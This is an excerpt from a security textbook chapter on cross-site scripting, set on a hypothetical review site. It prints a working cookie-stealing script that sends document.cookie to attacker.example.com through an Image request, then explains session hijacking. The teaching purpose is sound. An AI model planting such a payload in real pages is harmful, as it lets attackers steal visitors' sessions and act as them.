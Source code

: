 ## 7.2.1 XSS Attacks

How do attackers inject their code into your web application? Usually, this becomes possible when your application doesn’t filter input values sufficiently. For example, consider the hypothetical situation where the Camera Stork website (http://camerastork.com) displays user-submitted reviews on the main page without filtering any input data.

Because the output of the page is an HTML document, the attacker simply needs to embed their own HTML in the submitted review body, whereupon their HTML will be output to the page as-is. For example, if the attacker’s review contained the following code, all visitors to Camera Stork’s homepage would see a not-very-helpful alert message saying “Hello, World”:

This camera is great! I use it all the time.

```html
<script>
  alert("Hello, World");
</script>
```

This “Hello, World” alert message isn’t very scary—but it’s an example of a vulnerabil-
ity that can be exploited in many different ways to attack your users or your pub-
lisher’s visitors. For example, using this hole, an attacker can capture the session

token of an authenticated user by injecting JavaScript code that steals the contents of
that user’s cookies (see figure 7.1). And as you’re already aware, hijacking the user’s
session allows the attacker to access any data about the user stored with the affected
service, and perform malicious actions.
Accessing a user’s cookies via injected code is trivial; an attacker merely needs to
query the document.cookie property that you learned about in chapter 6. But just
accessing a user’s cookies isn’t enough—the attacker has to retrieve them. To do this,

the attacker needs to make the visitor’s browser issue an HTTP request with the con-
tents of the cookies to the attacker’s servers. There is no shortage of ways to do this:

they could append a new script element to the DOM, issue a CORS-compatible
XmlHttpRequest, and so on. But the easiest—and shortest—way is using the browser’s
Image JavaScript object.

This is a real story. Back in 2005, Chris Putnam and a couple of his friends wrote a worm for Facebook. The
worm exploited a cross-site scripting vulnerability they found in one of the Facebook profile fields and made
the social network look like its rival—MySpace. Chris Putnam was later

**Figure 7.1 An attacker stealing a user’s session by way of an XSS vulnerability**

Here’s an example code snippet injected by an attacker into a product review mes-
sage body:

This camera is great! I use it all the time.

<script>
var i = new Image();
i.src = "http://attacker.example.com/?c=" + document.cookie;
</script>

What does this code do? Every time this review is loaded, it generates a new Image
DOM element, but stops before attaching it to the document. Images that have never
been attached to the DOM aren’t visible to users; they’re stored only in memory and

nowhere else. But despite not being visible, browsers still issue HTTP requests to down-
load the corresponding image file,4

which is exactly what the attacker needs. The src
URL here (attacker.example.com) isn’t an image at all, but a server endpoint hosted
by the attacker that collects stolen cookies. You can see that the cookie data itself is
transferred using the target URL’s query string. When this code has been inserted into
the Camera Stork website, and is being requested by visitors, the attacker simply needs
to monitor their logs and store all the session identifiers they receive. Diabolical.
Usually, session identifiers aren’t attached to a particular computer, so the only

thing the attacker needs to do to complete their plan is to present any obtained iden-
tifiers as their own cookie data. After that, the attacker becomes an authenticated user

with permissions to do whatever they want, as far as your web server is concerned.
As you might’ve noticed, this attack isn’t actually noticeable by the user. The user
experience, unlike the previous “Hello, World” example, doesn’t differ from a regular,
4 The fact that browsers download images that are detached from DOM isn’t a bug. There are many use cases

for this behavior, for instance, to cause the browser to preload images before using them, or to obtain a ref-
erence to a source image for use with HTML5’s canvas element.

uncompromised page. This means that your users won’t be likely to report any prob-
lems until it’s too late and their sessions are stolen—an attacker is able to log in as

them, access their private data, and run unauthorized actions without approval. You
have to remember that the real attacker’s objective isn’t to execute an arbitrary
script—their real objective is to capture your user’s session.

---

#### From [[_2_cross-site-scripting]]

[//begin]: # "Autogenerated link references for markdown compatibility"
[_2_cross-site-scripting]: _2_cross-site-scripting "Cross-Site Scripting"
[//end]: # "Autogenerated link references"
